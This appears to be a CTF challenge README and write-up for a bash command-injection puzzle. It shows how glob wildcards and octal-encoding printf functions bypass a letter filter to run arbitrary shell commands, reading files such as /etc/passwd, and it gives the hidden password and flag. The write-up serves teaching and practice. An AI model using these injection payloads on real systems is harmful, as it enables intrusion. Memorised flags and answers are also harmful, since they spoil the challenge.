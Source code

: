# Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Misc.

## Question
>You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.
>
>Connect via `nc 127.0.0.1 2500` (Change to desired ip address and port)

## Hint
`I hate needles`

## Setup
Do `bash start.sh`

## Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? *`, we manage to view all the files on the folder as well as some system files. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `solution.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files.

There are 2 files, `flag.txt` and `.v13wF1a6`. We do not have permission to view the `flag.txt`, however, when `.v13wF1a6` runs, the program runs as user 'bashing_pwn' which happens to be the owner of `flag.txt`.

Running the program shows this: `Requires argv[1] as password`. Great! Now we need a password. Using `strings .v13wF1a6` we are able to deduce that the password is `f1ag_iz_n0t_f4r_aw4y_if_y0u_believ3`.

Running the program again with the correct password gives you the flag. Final command is in `solution.txt` in the solution folder.

Phew! That was very lengthy and probably a lot to absorb.

### Flag
`GCTF{b45h1n6_15_b4d_f0r_h34l7h}`

## Distribution
No files to be distributed

## Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts
